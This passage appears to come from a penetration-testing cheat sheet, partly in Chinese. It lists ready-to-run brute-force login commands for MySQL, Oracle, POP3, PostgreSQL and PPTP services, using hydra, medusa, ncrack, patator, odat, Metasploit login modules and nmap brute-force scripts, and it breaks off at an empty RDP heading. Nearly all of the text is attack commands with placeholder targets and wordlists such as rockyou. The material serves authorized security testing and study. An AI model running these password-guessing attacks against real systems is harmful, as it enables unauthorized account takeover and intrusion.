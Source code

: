 ## MySQL
```
hydra -L usernames.txt -P pass.txt <IP> mysql
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false
```
## OracleSQL
```
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017
./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#nmap fails sometimes for some reson executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

为了使用 patator 进行 oracle_login 登录操作，你首先需要安装一些依赖文件：
```
pip3 install cx_Oracle --upgrade
Offline OracleSQL hash bruteforce (versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3):
 nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30
```
## POP
```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
```
## PostgreSQL
```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```
## PPTP
```

你可以从这里下载 thc-pptp-bruter.deb文件进行安装: Index of /pool/main/t/thc-pptp-bruter

sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```
## RDP